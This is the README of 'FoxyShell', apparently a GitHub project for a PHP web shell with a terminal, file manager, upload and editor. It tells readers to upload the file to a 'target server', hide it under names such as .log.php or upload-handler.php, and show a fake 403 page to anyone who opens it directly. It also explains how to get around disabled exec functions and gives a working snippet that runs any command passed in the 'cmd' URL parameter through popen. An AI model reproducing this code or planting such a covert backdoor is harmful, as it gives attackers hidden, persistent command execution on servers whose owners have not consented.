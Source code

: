 # FoxyShell – PHP Web Shell

**FoxyShell** is a flexible, feature-packed **PHP web shell** that can be accessed through a simple interface, offers a pleasant UI, and supports several file operations and a built-in terminal. Even if some PHP functions like `exec` or `shell_exec` are disabled, FoxyShell can attempt to leverage other workarounds (like `popen`, etc.) to run commands – making it resilient in restricted environments.

![Preview](videos/demo.gif)
---

## Table of Contents

1. [Features](#features)  
2. [Installation](#installation)  
3. [Usage](#usage)  
4. [Security Recommendations](#security-recommendations)  
5. [FAQ](#faq)  
6. [Credits](#credits)

---

## Features

| Feature             | Description                                                                               |
|---------------------|-------------------------------------------------------------------------------------------|
| **Terminal**        | Run commands on the server (includes fallback if certain PHP functions are disabled).     |
| **File Manager**    | View and manage files with a dynamic sidebar.                                             |
| **Rename**          | Inline rename of files.                                                                    |
| **New File/Folder** | Quickly create files or folders on the server.                                            |
| **Upload**          | Upload files directly via the interface.                                                  |
| **Inline Editor**   | Edit file contents directly in the browser, then save changes to the server.              |
| **Breadcrumb**      | Clickable path segments to move between directories.                                      |
| **Stealth**         | Can be hidden (e.g., rename to .log.php), e.g. `foxyshell.php` → `.log.php`.            |
| **Safety**         | If someone opens `https://example.com/foxyshell.php` then the display that is displayed is `403 Forbidden` |

**Main Selling Points**

- **Works** even if some standard functions (```exec```, ```shell_exec```) are disabled, thanks to alternative methods.  
- **Attractive UI**: Tailwind CSS-based dark mode, icons, truncated filenames, etc.  
- **One-file solution**: just upload ```foxyshell.php``` to your target server, or hide it (e.g. ```.log.php```).  
- **REST-ish endpoints**: can be extended for automation.  
- **Potential** to add an “API KEY” check in ```foxyshell.php``` to secure access.

---

## Installation

1. **Upload** the single file ```foxyshell.php``` to your server.  
2. (Optional) **Hide** it by renaming to a dotfile such as ```.log.php``` or something less conspicuous.  
3. Ensure **permissions** are correct so the script can read/write files on the server.

---

## Usage

1. **Open** the script in your browser, e.g. ```https://example.com/foxyshell.php```.  
2. If you’ve **secured** it with an API key or HTTP Auth, provide those credentials.  
3. Once loaded, you’ll see:
   - **Sidebar** with Refresh, Upload, New File/Folder, and the file list.  
   - **Breadcrumb** to navigate directories.  
   - **Editor** to load and modify a file.  
   - **Terminal** to run commands (like ```ls -1```, ```cd /admin```, etc.).  
4. **Terminal** usage example:

   ```bash
   $ ls
   admin/
   index.php
   ...
   ```

5. **File creation** or **rename** operations are inline: you’ll see an input plus check and X icons to confirm or cancel.

**Example** minimal code snippet (in ```foxyshell.php```), (replace ``` with actual backticks in real usage):
```php
<?php
// Minimal example snippet
// Insert fallback logic for popen / shell_exec, etc.

if (!empty($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    // Use fallback 'popen' if 'exec' is disabled
    $descriptors = @popen($cmd . ' 2>&1', 'r');
    if ($descriptors) {
        while(!feof($descriptors)) {
            echo fgets($descriptors);
        }
        pclose($descriptors);
    } else {
        echo "Failed to run command\n";
    }
    exit;
}

// ... add your UI logic, forms, etc. ...
```

---

## Security Recommendations

- **Restrict Access**: Put this behind **HTTP Basic Auth** or an IP whitelist.  
- **Use HTTPS**: If possible, always run over HTTPS to avoid exposing commands in plaintext.  
- **Rename** to something less obvious (e.g., ```.log.php``` or ```upload-handler.php```).  
- **Log** suspicious IP addresses or set honeypot triggers if you want advanced security.

---

## FAQ

**Q**: What if ```exec``` and ```shell_exec``` are disabled in ```php.ini```?  
**A**: FoxyShell tries alternate methods like ```popen```. If everything is disabled, certain commands might fail – but the file manager, upload, rename, etc., would still work.

**Q**: How do I create folders that start with a dot?  
**A**: In the “New Folder” prompt, type ```.secret``` – the shell calls ```mkdir .secret```.

**Q**: Does the shell require a database?  
**A**: No. It’s a single ```.php``` file – no database or external dependencies needed.

---

## Credits

For further questions, please contact [rubahilang@gmail.com](mailto:rubahilang@gmail.com).
#
Made with ❤️ by **RubahIlang**  
